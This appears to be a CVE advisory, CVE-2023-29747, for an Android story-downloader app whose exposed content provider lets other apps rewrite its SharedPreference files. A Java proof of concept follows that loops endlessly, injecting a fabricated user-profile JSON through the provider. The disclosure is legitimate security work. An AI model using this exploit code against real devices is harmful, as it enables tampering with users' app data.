 ## Escalation of Privileges exists in Story Saver for Instragram - Video Downloader（CVE-2023-29747）

Vendor：Nihan Bayrak(https://www.instagram.com/nihans_macrame/)

Affected product：Story Saver for Instragram - Video Downloader(story.saver.downloader.photo.video.repost.byrk)

Version：1.0.6

Download link：https://apksos.com/app/story.saver.downloader.photo.video.repost.byrk

Description of the vulnerability for use in the CVE：Story Saver for Instragram - Video Downloader 1.0.6 for Android exists exposed component, the component provides the method to modify the SharedPreference file. The attacker can use the method to modify the data in any SharedPreference file, these data will be loaded into the memory when the application is opened. Depending on how the data is used, this can result in various attack consequences, such as ad display exceptions.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://story.saver.downloader.photo.video.repost.byrk.TTMultiProvider/t_sp/contain/" + "total_memory" + "?sp_file_name=unityads-installinfo");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put("apiUserProfile", "{\"is_verified\":false,\"is_favorite\":false,\"uid\":\"FlG4hFCFrxPQMQ2UfejzeJuzoy92\",\"b\":2,\"c\":3,\"d\":0,\"lang\":\"jp\",\"bio\":\"hack\",\"workTitle\":\"hack\",\"workCompany\":\"hack\",\"education\":\"hack\",\"redactedName\":\"T*******\",\"name\":\"hack\",\"ppImageURL\":\"https://d2veheavfolhls.cloudfront.net/pp%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd8350738-45da-4221-a648-5082259139c5?alt\\u003dmedia\",\"ppImageID\":\"d8350738-45da-4221-a648-5082259139c5\",\"country\":{\"code\":\"HK\",\"name\":\"Hong Kong SAR China\",\"flag\":\"https://d2veheavfolhls.cloudfront.net/misc%2Fflags%2FHK@3x.png?alt\\u003dmedia\"},\"birthday\":\"1999-11-29T06:22:00.000Z\",\"age\":99,\"popularity\":1000,\"like_count\":-1,\"shared_id\":\"123456789\",\"favorite_count\":0,\"self_favorite_count\":3,\"ppImages\":[{\"ID\":\"d8350738-45da-4221-a648-5082259139c5\",\"URL\":\"https://d2veheavfolhls.cloudfront.net/pp%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd8350738-45da-4221-a648-5082259139c5?alt\\u003dmedia\",\"review_status\":0}],\"profileVideos\":[{\"ID\":\"d4f68235-630c-46b2-b45a-b9716b4ee6da\",\"URL\":\"https://d2veheavfolhls.cloudfront.net/pv%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd4f68235-630c-46b2-b45a-b9716b4ee6da?alt\\u003dmedia\",\"thumbnailURL\":\"https://d2veheavfolhls.cloudfront.net/pvt%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd4f68235-630c-46b2-b45a-b9716b4ee6da?alt\\u003dmedia\",\"review_status\":0}]}");
        contentResolver.update(uri,contentValues,null,null);
    }

}
```



